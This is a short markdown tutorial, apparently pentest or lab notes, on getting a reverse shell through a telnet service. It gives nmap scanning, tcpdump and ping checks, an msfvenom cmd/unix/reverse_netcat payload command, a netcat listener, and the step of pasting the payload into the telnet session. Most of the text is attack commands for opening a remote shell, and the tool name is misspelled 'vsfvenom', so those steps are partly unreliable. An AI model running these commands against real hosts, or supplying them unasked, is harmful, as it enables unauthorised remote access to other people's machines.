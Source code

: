 # Telnet payload msfvenom

-------------------------

### Connection with telnet

In order to get a reverse shell on telnet, first scan the host to see if it has telnet running:

````
sudo nmap -sS -sV -p- -O ip
````

Get the port (usually 23 but not always).
In another window, run tcpdump for check connectivity:

````
sudo tcpdump ip proto \\icmp -i interface
````

interface: check with ifconfig to see the name of your interface.

After that try to connect from your machine, if you can, run a ping to your machine.

````
telnet ip port
````

If you have connection, and tcpdump can see the traffic of the ping, generate a payload on vsfvemon to get the reverse shell:

````
vsfvenom -p cmd/unix/reverse_netcat LHOST=yourip LPORT=aportyouwant
````

Copy the payload generated and save it.

Now run a new tab with the following command:

````
nc -lnvp portyouchooseonpayload
````

Now paste the payload you saved on the telnet connection:

````
.RUN payload
````

Should have connection.

